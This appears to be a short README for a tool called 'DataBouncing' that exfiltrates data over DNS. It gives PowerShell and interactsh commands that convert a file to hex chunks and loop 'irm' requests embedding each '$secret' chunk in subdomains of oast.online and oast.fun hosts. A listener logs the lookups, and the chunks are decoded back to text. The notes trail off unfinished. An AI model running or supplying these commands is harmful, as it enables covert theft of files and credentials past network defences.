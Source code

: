 # DataBouncing

Use this [BUILD](https://github.com/Unit-259/DataBouncing/blob/main/Resources/interactshBuild.sh).

```
interactsh-client -v -o /root/DataBouncing/logs.txt
```


`$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt`

```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```


```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```

```
foreach ($i in $x.PSObject.Properties) {$secret = $i.Value;irm "xregex.$secret.cln6u1qilvdt6859fml0quuh98ohq8huk.oast.fun"}
```

```
Convert-hexToAscii (find-secret -FilePath ./logs.txt -XRegex 'xregex')
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
